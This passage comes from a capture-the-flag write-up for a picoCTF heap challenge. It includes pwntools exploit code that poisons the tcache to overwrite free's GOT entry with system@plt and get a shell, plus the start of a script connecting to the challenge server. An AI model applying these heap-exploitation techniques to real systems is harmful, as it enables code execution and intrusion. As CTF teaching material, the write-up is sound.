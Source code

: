 ```Call Free -> Free@plt -> Modified GOT Entry -> System@plt -> System GOT Entry -> System@libc```
#put two horses into tcache bin
removeHorse(0)
removeHorse(1)

#horse 1 is the first horse, make it point to 0x404010 instead of horse 0
cheat(1, pwn.p64(0x404010 ^ ASLR) + b"\xff")

#examine our work
#pwn.gdb.attach(p, "heap bins") 
#time.sleep(2)

addHorse(0, 256, b"/bin/sh\x00\xff")
#this horse's name is at 0x404010, 0x401090 is system PLT address
addHorse(1, 256, pwn.p64(0) + pwn.p64(0x401090) + b"\xff")
removeHorse(1)
removeHorse(0)
p.interactive()
```
<br>
![popping shell locally](images/epicPwn.png) 
<br>

#### Challenge instance

Now that we can get a shell locally, we need to do it on the actual challenge instance so we can get our flag! This means we can't randomly attach gdb to debug our exploit anymore. Doing this on the challenge instance is mostly the same as locally, but you use a remote connection instead of a binary. I also ssh into a different server when connecting to pico challenge instances and it received "\r\n" in place of "\n" when the horses were racing, so that needed to be accounted for too in the parsing code.

```python
#! /usr/bin/python3
import pwn
import time
import sys
pwn.context(log_level='debug')

#pwn.context(binary="./vuln")
#pwn.context(terminal=["xfce4-terminal", "-e"])
#elf = pwn.ELF("./vuln")
libcFile = pwn.ELF("./libc.so.6")
#open a remote connection
p = pwn.remote("saturn.picoctf.net", sys.argv[1])

def addHorse(stableIndex, nameLength, name):
	p.sendlineafter("Choice: ", b"1")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex), encoding="ascii"))
	p.sendlineafter("Horse name length (16-256)? ", bytes(str(nameLength), encoding="ascii"))
	p.sendlineafter(f"Enter a string of {nameLength} characters: ", name)

```